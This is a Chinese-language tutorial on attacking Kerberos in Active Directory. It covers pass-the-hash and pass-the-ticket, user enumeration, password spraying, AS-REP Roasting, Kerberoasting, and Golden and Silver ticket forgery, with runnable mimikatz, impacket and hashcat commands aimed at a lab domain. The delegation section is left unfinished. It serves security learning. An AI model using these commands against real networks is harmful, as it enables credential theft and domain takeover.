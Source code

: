 # Kerberos安全

# 一、Pass The *

在Kerberos流程中预认证部分，`Client`会发送经用户哈希加密的时间戳作为凭据，如果使用明文密码，实际上也是加密成哈希再使用的，所以有用户哈希就可以进行预认证环节。

## 1. Pass The Key/Overpass The Hash

`Overpass The Hash`指的是在仅支持Kerberos协议的情况下，使用用户哈希来向KDC请求获得Kerberos TGT票据，用户哈希实际上就是RC4类型的密钥。

`Pass The Key`指的是在Kerberos预认证阶段，使用其他类型的 Kerberos 密钥（DES、AES-128、AES-256）来进行认证。

利用`mimikatz`来进行`Overpass The Hash`，需要本地管理员权限：

```
privilege::debug
sekurlsa::pth /user:user1 /domain:hack.org /ntlm:a45a7246dd74b64a67f22fd7020f1bd8
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029150458QvFgIo.png#alt=)

或者使用`impacket`工具包`getTGT.py`申请TGT：

```
python getTGT.py hack.org/administrator -hashes :a45a7246dd74b64a67f22fd7020f1bd8
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202110291544364ltymH.png#alt=)

使用`mimikatz`导出key类型的密钥并利用，需要本地管理员权限：

```
privilege::debug
sekurlsa::ekeys
sekurlsa::pth /user:user1 /domain:hack.org /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c
```

`getTGT.py`的`-aesKey`参数也支持AES256类型的密钥。

## 2. Pass The Ticket

`Pass The Ticket`即票据传递攻击，攻击者获取票据，再使用票据访问对应的服务。

可以使用`getTGT.py`来获取票据，也可以使用kekeo：

```
tgt::ask /user:administrator /domain:hack.org /ntlm:a45a7246dd74b64a67f22fd7020f1bd8
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202110291605498uWxf5.png#alt=)

再导入票据：

```
kerberos::ptt TGT.kirbi
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029163749t4QFqm.png#alt=)

# 二、用户名枚举

在预认证阶段，`Client`发送的用户名如果是不存在的，KDC会返回`KDC_ERR_C_PRINCIPAL_UNKNOWN`错误，可以借此来枚举用户名，这种通常适用于没有任何域内用户权限的情况下。

常用的工具：

- Krbguess，Java编写
- nmap的`krb5-enum-users`脚本
- msf的`auxiliary/gather/kerberos_enumusers`模块

# 三、密码喷洒

在有域内用户列表的情况下可以进行密码喷洒，密码喷洒也是爆破攻击，但是跟密码爆破不同的地方在于，密码爆破通常是对一个或多个用户名分别跑密码字典；而密码喷洒则是对多个用户名测试一个弱口令。这样的优势在于更不容易触发账户的密码错误锁定策略。

如果有域内权限，应该先尝试获取域内密码策略，主要关注：

- Maximum Password Age，密码过期时间，

- Minimum Password Length，密码最小长度
- Account Lockout Duration，被锁定的帐户在自动解锁前保持锁定的分钟数
- Account Lockout Threshold，允许登录失败次数

在有域内主机权限的情况下可以使用PowerView：

```powershell
(Get-DomainPolicy)."SystemAccess"
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029212025zvcyok.png#alt=)

# 四、AS-REP Roasting

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202110292128401ejrsr.png#alt=)

如果用户配置了“不要求Kerberos预身份验证”，那攻击者就可以冒充这个用户向KDC发起`KRB_AS_REQ`请求，KDC会返回`KRB_AS_REP`，其中的`enc-part`部分是使用此用户的哈希加密的，通过对其离线破解，可以得到用户明文密码。

使用PowerView-dev发现不要求预认证的用户：

```powershell
Get-DomainUser -PreauthNotRequired -verbose
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029214543Zze1Ok.png#alt=)

之后就可以请求获取`KRB_AS_REP`，利用`impacket`工具包：

```
GetNPUsers.py hack.org/user1:passW@rd123 -request -format hashcat -outputfile hashes.asreproast
```

使用hashcat破解：

```
hashcat -m 18200 --force -a 0 hashes.asreproast password.txt
```

# 五、Kerberoasting

Kerberoasting攻击指的是获得对应服务的ST，再对其进行离线破解以获得服务的哈希，只需要一个普通域内用户。

在`KRB_TGS_REP`消息中，`ticket`字段的`enc-part`是使用所请求的服务哈希加密的。Kerberoasting与`AS-REP Roasting`类似，请求获得`KRB_TGS_REP`消息，再离线破解`ticket`字段的`enc-part`，不过前者是破解服务账户，而`AS-REP Roasting`破解的是用户账户。

要关注高价值的服务，如使用用户账户启动的服务，因为机器账户的密码是随机生成的，很难破解。

使用`GetUserSPNs.py`查询域用户注册的SPN并请求ST：

```
GetUserSPNs.py -request -dc-ip 10.211.55.100 hack.org/user1 -outputfile hashes.kerberoast
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029221041Ta72Cw.png#alt=)

后面还是使用hashcat破解即可。

# 六、黄金票据

黄金票据指的是在已经获得域控制器的krbtgt用户哈希的情况下，自行签发TGT，也就能获得域内任意服务的权限。

使用`mimikatz`来签发TGT：

```
mimikatz.exe "privilege::debug" "kerberos::golden /admin:administrator /domain:hack.org /id:500 /sid:S-1-5-21-656570226-3390374433-1712624621 /krbtgt:42251cf64a43e47905a4baf14cd44ca6 /ptt"
```

伪造了administrator用户的TGT，可以成功访问域控：

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211101145333dhQ5s5.png#alt=)

# 七、白银票据

白银票据指的是在已经获得服务哈希的情况下，自行签发此服务的ST，可以获得服务的权限。

例如，我们现在有了域控制器主机账户的哈希，那么就可以签发对应服务也就是`cifs`的ST，使用mimikatz完成：

```
mimikatz.exe "privilege::debug" "kerberos::golden /user:administrator /domain:hack.org /id:500 /sid:S-1-5-21-656570226-3390374433-1712624621 /target:dc.hack.org /rc4:f5d2517c15020a8b531639109af535a1 /service:cifs /ptt" exit
```

`/rc4`参数即对应服务账户的NTLM哈希，`/service`参数为服务名：

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202111011504038Wk5mo.png#alt=)

如果对应的服务配置了验证PAC，白银票据将失效。

# 八、委派（待完成）

## 1. 非约束委派

寻找配置了非约束委派的服务账户并获取其权限，让域管理员访问此服务，访问中会携带域管理员的TGT，并且缓存到内存中。

## 2. 约束委派

寻找配置了约束委派的服务账户并获取其权限，利用此账户可以代表任意用户申请可转发的ST，以访问另一个服务。

## 3. 基于资源的约束委派
